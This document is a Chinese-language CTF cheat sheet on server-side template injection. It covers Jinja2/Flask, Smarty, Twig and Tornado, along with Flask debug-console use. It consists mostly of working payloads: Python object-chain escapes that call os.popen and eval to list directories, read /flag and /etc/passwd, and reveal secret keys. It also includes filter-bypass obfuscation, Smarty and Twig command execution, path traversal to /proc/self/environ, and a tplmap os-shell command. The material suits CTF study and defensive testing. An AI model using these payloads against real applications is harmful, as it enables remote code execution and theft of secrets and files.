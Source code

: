 # SSTI

![Alt text](../../public/imgs/ssti.png)

[hideandseek](https://www.baidu.com/s?wd=hctf2018+hideandseek)

- linux service 越权
- [Python 原型链污染+Flask Pin](../../../../../blog/text/docs/ctf/scripts/web/web_flask_pin_原型链污染.zip)
- 非预期 unicode 绕过 \uxxxx
- 非预期 hex 绕过 \x32
- python2 tphmap.py -u "url" [--level=3] --os-shell

## ssti bypass

| code                   | filter | bypass                      |
| ---------------------- | ------ | --------------------------- |
| `__init__.__globals__` | global | `__init__['__glob''als__']` |
| `{{}}`                 | `{{`   | `{% %}`                     |
|                        | `_`    | lipsum                      |

## ssti 注入

测试

<pre>/hello?name=
{% for i in range(10) %}
{% print(i) %}
{% endfor %}
</pre>

输出了结果，说明有漏洞

```python
/hello?name={{config.__class__.__init__.__globals__['os'].popen('cat ../app/flag').read()}}
/hello?name={{"".__class__}} 返回str
/hello?name={{"".__class__.__base__.__subclasses__()[302]}} # popen
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /app").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("cat /app/flag").read()}}
[].__class__.__base__.__subclasses__()[58].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag.txt').read()")
# WarningMessage
{{''.__class__.__base__.__subclasses__()[221].__init__['__glob''als__']['__builtins__']['eval']}}

# python2 input漏洞
__import__('os').popen('cat /flag.txt').read()
## appconfig
__class__.__init__.__globals__[app].config
?err=pfn&back={0.__class__.__init__.__globals__}   # 等于 pnf.__class__.__init__.__globals__


# __builtins__利用
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()’)

# linecache利用
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['linecache'].__dict__['os'].popen('whoami’).read()
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['linecache'].__dict__['sys'].modules['os'].popen('whoami').read()
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['linecache'].__dict__['__builtins__']['__import__']('os').popen('ls').read()

# sys利用
[].__class__.__mro__[1].__subclasses__()[58].__init__.__globals__['sys'].modules['os'].popen('whoami').read()
```

### 万能语句

```python
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
            {% if b.__class__ == {}.__class__ %}
                {% if 'eva'+'l' in b.keys() %}
                    {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
                {% endif %}
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

方式 2

```py
# 读取app.py  -- [GYCTF2020]FlaskApp
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}
# 读目录 ls/
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
# 拼接大法
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
```

生产环境不要开 debug 模式

## ssti 服务器模板注入 jinja2

`buuoj [RootersCTF2019]l_<3_Flask`

[[WesternCTF2018]shrine](https://www.cnblogs.com/Cl0ud/p/12316287.html)

```py
# request
{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}
{{request.application.__globals__['__builtins__'].open('/etc/passwd').read()}}

# url_for
{{url_for['__glob'~'als__']}}
{{url_for['__glob'~'als__']['__built'~'ins__']['eval']("next(open('/flag'))")}}
{{url_for['__glob'~'als__']['os']['popen']("cat *")['read']()}}

{{config.__class__.__init__.__globals__['os'].__getattribute__('popen')('ls /').read()}}
{{config.__class__.__init__.__globals__['os'].__getattribute__('popen')('cat /this_is_the_fla""g.txt').read()}}

# lipsum
{{lipsum.__globals__['os'].popen('whoami').read()}}
{{lipsum.__globals__.os.popen('whoami').read()}}
{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}

# get_flashed_messages
{{self.__dict__}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}
```

[pasecactf_2019_flask_ssti](https://guokeya.github.io/post/zIiwsY95N/)

内置函数 `print(help(dir(__builtins__)))`

ssti 方式

```
?flag={{config.SECRET_KEY}}
/hello?name={{7*7}}
/hello?name={{config}}

原题目通过lfi, 文件穿越
/downloadj?image=1.jpg
/downloadj?image=../../../../../../../etc/passwd/

查看程序环境变量
/downloadj?image=../../../../../../../proc/self/environ
看到secret_key
```

## ssti smarty

`[BJDCTF2020]The mystery of ip`
`[CISCN2019 华东南赛区]Web11`

```
{if phpinfo()}{/if}
{if system('ls')}{/if}
{ readfile('/flag') }
{if show_source('/flag')}{/if}
{if system('cat /flag')}{/if} #本题payload
{if system('cat ../../../flag')}{/if} #本题payload
X-Forwarded-For: {{system("ls")}}
X-Forwarded-For: {{system("cat /flag")}} #本题payload
```

## ssti 服务器模板注入 twig

```
user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

## PIN 码

debug 开启 才有 PIN 码问题

```html
{{...}}报错
```

得到，PIN 码怎样访问？

```html
name={{...}} 看报错信息，
```

找一行，点右边的 terminal 图标，输入 PIN 码。进入 console。

```python
## console中执行
import os
os.system('ls') # 并没有得到返回输出全部内容，返回了0.只得到返回值
os.popen('ls').read() # 得到了结果。
os.popen('ls /').read()
os.popen('ls /app').read() # 发现 flag
os.popen('cat /app/flag').read()
## 也可以写个反向shell，拿到更多权限。
```

## ssti 注入\_tornado

[2018 护网杯 easy_tornado(BUUCTF 提供复现)](https://blog.csdn.net/zz_Caleb/article/details/101473013)

那么 tornado 中的 cookie 通过 handler.settings 对象

handler 指向 RequestHandler
而 RequestHandler.settings 又指向 self.application.settings
所有 handler.settings 就指向 RequestHandler.application.settings 了！

传递 error?msg={{ handler.settings }}得到：

'cookie_secret': 'b8e09977-6541-498b-9a30-08e3118b6e60'}

filehash: md5(cookie_secret+md5(filename))

## GDOUCTF 2023 ez_ze

[SSTI 绕过 | [GDOUCTF 2023]<ez_ze>](https://www.nssctf.cn/problem/3745) [参考文章](https://zhuanlan.zhihu.com/p/619441473)

可用 payload：

```python
{%set fza1=dict(po=a,p=b)|join%}
{%set res=(lipsum|string|list)|attr(fza1)(24)%}
{%set fza2=(res,res,dict(globa=a,ls=b)|join,res,res)|join%}
{%set fza3=dict(o=a,s=b)|join%}
{%set fza4=dict(pope=a,n=b)|join%}
{%set fza5=dict(get=a)|join%}
{%set fza6=(res,res,dict(builtins=a)|join,res,res)|join %}
{%set fza7=dict(chr=a)|join%}
{%set char=(lipsum|attr(fza2))|attr(fza5)(fza6)|attr(fza5)(fza7)%}
{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}
{%set re=dict(rea=a,d=b)|join%}
{%set fuck=(lipsum|attr(fza2))|attr(fza5)(fza3)|attr(fza4)(command)|attr(re)()%}
{%print fuck%}
```

## Article

[Python 沙箱逃逸-离线也有](https://mp.weixin.qq.com/s/_cYKlPzUgokvJ17ZVRhMxw)

